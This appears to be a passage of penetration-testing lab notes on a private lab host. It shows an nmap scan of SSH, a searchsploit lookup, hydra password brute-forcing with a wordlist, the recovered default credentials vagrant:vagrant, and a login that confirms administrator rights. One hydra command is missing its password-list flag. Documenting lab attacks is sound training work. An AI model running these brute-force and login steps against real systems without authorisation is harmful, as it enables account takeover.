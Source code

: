 ```bash
nmap -sV -sC -p 22 10.2.16.83
```

```bash
22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)
```

```bash
searchsploit OpenSSH 7.1
# Use username enumeration if needed
```

- **Brute-force SSH**

```bash
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh

hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh
# No valid password for SSH - administrator
```

```bash
[22][ssh] host: 10.2.16.83   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424114404462.png)

- User SSH login can be tried

```bash
ssh vagrant@10.2.16.83
# vagrant:vagrant
# WORKS!

ssh administrator@10.2.16.83
# administrator:vagrant
# DOES NOT work!

net localgroup administrators
# "vagrant" is in the Administrators Group
```

![](.gitbook/assets/image-20230424114533652.png)